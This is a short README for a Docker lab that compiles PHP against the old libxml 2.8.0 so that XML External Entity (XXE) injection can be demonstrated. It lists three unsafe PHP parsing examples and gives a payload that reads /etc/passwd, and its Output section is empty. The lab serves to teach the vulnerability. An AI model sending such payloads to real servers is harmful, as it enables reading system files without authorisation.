

# PHP Environment XML External Entity Injection Vulnerability (XXE)

Environmental introduction:

- PHP 7.0.30
- libxml 2.8.0

After libxml2.9.0, the external entity is not parsed by default, resulting in the demise of the XXE vulnerability. To demonstrate the XXE vulnerability in the PHP environment, this example will compile libxml2.8.0 into PHP. The PHP version does not affect the use of XXE.

Compile and start the environment with the following command:

```
Docker-compose up -d
```

After the environment starts, you can see phpinfo by visiting `http://your-ip:8080/index.php`, and you can see that the version is 2.8.0 by searching libxml.

The web directory is `./www`, which contains 4 files:

```bash
$ tree .
.
├── dom.php # Example: Parsing a body using DOMDocument
├── index.php
├── SimpleXMLElement.php # Example: Parsing the body using the SimpleXMLElement class
└── simplexml_load_string.php # Example: parse the body using the simpleml_load_string function
```

The `XX.php`, `SimpleXMLElement.php`, `simplexml_load_string.php` can trigger the XXE vulnerability. Please read the code of these three files for the specific output points.

Simple XXE Payload:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

Output:



For more advanced use, please explore on your own.